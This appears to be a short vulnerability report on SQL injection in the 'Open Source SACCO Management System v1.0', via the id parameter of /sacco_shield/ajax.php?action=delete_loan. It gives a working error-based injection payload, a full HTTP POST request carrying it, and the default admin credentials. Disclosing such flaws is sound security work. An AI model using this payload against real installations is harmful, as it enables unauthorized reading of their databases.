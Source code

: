 # Open Source SACCO Management System v1.0 by mayuri_k has SQL injection

BUG_Author:  Via

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15372/open-source-sacco-management-system-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /sacco_shield/ajax.php?action=delete_loan

Vulnerability location: /sacco_shield/ajax.php?action=delete_loan, id

dbname = sacco,length=5

[+] Payload: id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /sacco_shield/ajax.php?action=delete_loan HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191199209-808eae54-3e42-452f-b146-f59fc8574918.png)
